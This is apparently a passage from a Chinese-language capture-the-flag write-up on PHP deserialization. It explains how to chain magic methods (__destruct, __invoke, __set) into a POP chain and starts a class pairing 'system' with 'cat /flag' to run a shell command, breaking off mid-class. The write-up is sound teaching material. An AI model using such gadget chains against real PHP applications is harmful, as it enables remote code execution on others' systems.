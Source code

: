 所以接下来我们需要触发__set方法，且b的值为dangerous

我们看到class001中出现了payload，应该未被定义的值，通过它，我们能触发set方法

```
class class001 {
    public $payl0ad;
    public $a;
    public function __invoke()
    {
        $this->a->payload = $this->payl0ad;
    }
}

```

接下来就是触发__invoke()方法了，我们看class001，我们发现$a()，可通过这个触发invoke()方法

```
<?php

class class000 {
    private $payl0ad = 0;
    protected $what;

    public function __destruct()
    {
        $this->check();
    }

    public function check()
    {
        if($this->payl0ad === 0)
        {
            die('FAILED TO ATTACK');
        }
        $a = $this->what;
        $a();
    }
}
```

接下来就是构造pop链

```
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil='cat /flag';

    // 如何赋值呢
    private $a;
    function Seta($a)
    {
        $this->a=$a;
    }
    function __destruct() {
        $s = $this->a;
        $s($this->evil);
    }
}

class B {
    private $b='system';
    
    function __invoke($c) {
```